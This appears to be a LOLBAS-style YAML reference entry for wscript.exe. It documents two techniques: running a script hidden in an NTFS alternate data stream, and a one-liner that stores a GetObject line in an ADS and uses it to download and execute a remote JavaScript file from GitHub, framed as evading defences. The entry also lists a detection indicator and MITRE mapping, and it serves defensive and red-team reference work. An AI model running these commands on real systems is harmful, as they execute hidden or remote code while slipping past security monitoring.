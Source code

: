 ```yaml
---
Name: Wscript.exe
Description: Used by Windows to execute scripts
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: wscript c:\ads\file.txt:script.vbs
    Description: Execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js
    Description: Download and execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\wscript.exe
  - Path: C:\Windows\SysWOW64\wscript.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Wscript.exe executing code from alternate data streams
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
  - Person: SaiLay(valen)
    Handle: "@404death"
---
```

